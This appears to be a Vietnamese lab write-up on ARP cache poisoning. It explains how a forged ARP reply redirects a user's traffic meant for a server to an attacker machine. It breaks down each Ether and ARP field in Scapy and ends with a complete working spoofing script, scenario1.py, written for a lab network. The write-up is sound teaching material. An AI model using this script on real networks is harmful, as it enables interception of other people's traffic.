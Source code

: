 3. **Chuyển hướng lưu lượng**
Sau khi bảng ARP của Máy User bị thay đổi, tất cả lưu lượng đáng lẽ được gửi đến Máy Server sẽ được gửi đến Máy Attacker.


#### 3. Phân tích code.
- Mục đích của code:
  - Tạo và gửi gói tin giả mạo đến User.
  - Gói tin này thông báo cho User rằng địa chỉ MAC của Server là địa chỉ MAC của Attacker (`02:42:0a:3d:07:33`).
- Phân tích chi tiết
  - Ethernet Frame (`Ether`)

      ```py
      E = Ether(dst = '<User_MAC>', src = '<Attacker_MAC>')
      ```

    - `dst` là địa chỉ MAC của máy nhận gói tin.
    - `src` là địa chỉ MAC của Attacker, để giả mạo làm Server.
  - Gói tin ARP (`ARP`):
      ```py
      A = ARP(op = 2, hwsrc = '<Attacker_MAC>', psrc = '<Server_IP>', hwdst = '<User_MAC>', pdst = '<User_IP>')
      ```
    - `op = 2`: Thiết lập loại gói ARP là reply (trả lời).
    - `hwsrc`: Địa chỉ MAC giả mạo, trong trường hợp này là địa chỉ MAC của Attacker (`02:42:0a:3d:07:33`).
    - `psrc`: Địa chỉ IP bị giả mạo, trong trường hợp này là địa chỉ IP của Server (`10.61.7.20`).
    - `hwdst`: Địa chỉ MAC của nạn nhân, là User (`02:42:0a:3d:07:0a`).
    - `pdst`: Địa chỉ IP của nạn nhân, là địa chỉ IP của User (`10.61.7.10`).
  - Tổ hợp và gửi gói tin:
    ```py
    pkt = E/A
    pkt.show()
    sendp(pkt)
    ```
      - Gói tin ARP giả mạo được đóng gói (Ethernet + ARP) và gửi đi.
      - `pkt.show()`: Hiển thị nội dung gói tin để kiểm tra.
      - `sendp(pkt)`: Gửi gói tin qua tầng liên kết (Layer 2).

#### 4. Chương trình khai thác
Ta có `scenario1.py` hoàn chỉnh:
```py
#!/usr/bin/python3
from scapy.all import *

E = Ether(dst = '02:42:0a:3d:07:0a', src = '02:42:0a:3d:07:33')
A = ARP(op = 2, hwsrc = '02:42:0a:3d:07:33', psrc = '10.61.7.20', hwdst = '02:42:0a:3d:07:0a', pdst = '10.61.7.10')
pkt = E/A
pkt.show()
sendp(pkt)
```
